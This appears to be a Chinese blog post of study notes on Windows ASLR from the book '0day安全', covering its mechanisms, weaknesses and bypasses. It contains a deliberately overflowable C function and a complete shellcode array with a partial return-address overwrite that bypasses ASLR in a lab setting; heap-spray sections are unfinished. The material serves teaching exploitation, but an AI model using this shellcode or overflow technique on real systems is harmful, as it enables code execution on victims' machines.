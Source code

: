 ```yaml
---
layout: post
title:  "《0day安全》ASLR保护"
date:   2019-3-29
categories: 
excerpt: 
---
```


* content
{:toc}


# **ASLR介绍**

## **简介**

微软的ASLR（Address Space Layout
Randomization）技术就是通过加载程序的时候不再使用固定的基址加载，从而干扰shellcode的定位

从Windows Vista开始出现ASLR（Windows XP只是对PEB和TEB进行了简单的随机化处理）

ASLR的实现需要程序自身的支持和操作系统的双重支持，其中程序的支持不是必需的。

支持ASLR的程序在它的PE头中会设置IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识。

## **类型**

### **映像随机化**

在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址是在系统启动时确定的，系统重启后这个地址会发生变化。

出于兼容性的考虑，微软在系统中设置了映像随机化的开关，用户可以通过设置注册表中HKEY_LOCAL_MACHINESYSTEMCurrentControlSetControlSession
ManageMemory ManagementMoveImages的键值来设定映像随机化的工作模式。

设置为0时映像随机化将禁用。

设置为-1时强制对可随机化的映像进行处理，无论是否设置注册表。

设置为其他值为正常1工作模式，安装注册表来执行。

### **堆栈随机化**

堆栈的基址不是在系统启动时确定的，而是在打开程序的时候确定的，同一程序任意两次运行时的堆栈基址都是不同的。也就是各变量在内存中的位置也是不确定的。

### **PEB与TEB随机化**

	#include "stdio.h"

	#include "stdlib.h"

	int main(int argc, char* argv[]){

		unsigned int teb;

		unsigned int peb;

		__asm{

		mov eax,FS:[0x18]

		mov teb,eax

		mov eax,dword ptr [eax+0x30]

		mov peb,eax

		}

		printf("PEB:%#0.4xnTEB:%#0.4x", peb, teb);

		getchar();

		return 0;

	}

可以用上面的代码查看当前进程的TEB和PEB。

同时可以发现PEB和TEB的随机化不是非常好。

# **ASLR的局限**

## **映像随机化**

虽然模块的加载基址变了，但是各模块的入口点（Entry那列）地址的低位两个字节是不变的，也就是说映像随机化只是对加载基址的前两个字节做了随机处理。例如0x12345678,随机之后0x5678是不变的。

## **堆栈随机化**

随机化了堆栈的基址可以有效的防止精准攻击，但自从JMP
ESP跳板指令开始使用后溢出时很少直接跳到shellcode执行；另外在浏览器攻击方面很流行的heap
spray等技术都不需要精准跳转，只需要跳到一个大概位置就可以。

## **PEB与TEB随机化**

随机化程度非常差，而且虽然地址是随机了但偏移量是固定的，也就是TEB存放在FS:0和FS:[0x18]处，PEB放在TEB偏移0x30的位置。

# **ASLR的突破**

## **攻击未启用ASLR的模块**

ASLR仅仅是项安全机制，不是什么行业标准，不支持ASLR的软件有很多。所以我们可以找到一块未开启ASLR的模块，利用它里面的指令作为跳板。

## **利用部分覆盖进行定位内存地址**

无论是函数的返回地址，还是异常处理函数的指针，或者是虚函数表指针都是要存放到堆栈中的，虽然保存的地址是经过随机处理之后的地址，但是也仅仅是前2个字节的随机化，如果我们只覆盖这个地址的最后一个或两个字节，就可以达到目的了

ASLR只是随机化了映像的加载基址，而没有对指令序列进行随机化。所以绝对地址虽然变了，但相对地址确没有改变。

调试代码：

	#include "stdafx.h"

	#include "stdlib.h"

	char shellcode[]=;

	char * test()

	{

		char tt[256];

		memcpy(tt,shellcode,262);

		return tt;

	}

	int _tmain(int argc, _TCHAR* argv[])

	{

		char temp[200];

		test();

		return 0;

	}

![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1n4v311d2j20j307c0ud.jpg)

	return tt;
就是把调用test函数后，eax保存的是tt数组的首地址，所以我们只要再调用call eax就行了

前面一大串shellcode和x90可以把tt溢出，作者原话是可以通过OllyFindAddr插件
找到call eax，但我试了一下并没有找到
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n83c7eokj212i0jrjxk.jpg)
（这里一定要用实验函数内的call eax，这样才不会随机化，其他dll里面的不能用）
那退回到代码，ctrl+f直接找命令，找到了
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n84maxcnj20o607iq3y.jpg)
截取最后两个字节，将它覆盖到test函数的返回地址就可以了。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n86vgaxcj212g0li0yc.jpg)
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1n87hr7n4j20ub0m7dls.jpg)
我们已经成功的跳转到了shellcode的位置。

最后的shellcode

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09"
	"\x8b\x09"
	"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90"
	"\x1c\x14"
	;

这里的新加了\x8b\x09,因为Windows 7下PEB_LDR_DATA指向加载模块列表中第二个位置被KERNELBASE.dll占据，kernel32.dll的位置由第二个变为了第三个。
![](http://ww1.sinaimg.cn/large/7fb67c86ly1g1o7vvxnzmj20ji0fnmxt.jpg)

## **利用Heap spray技术定位内存地址**

Heap spray（堆喷射）

## **利用Java applet heap spray技术定位内存地址**

以后补充

## **为.NET控件禁用ASLR**

以后补充
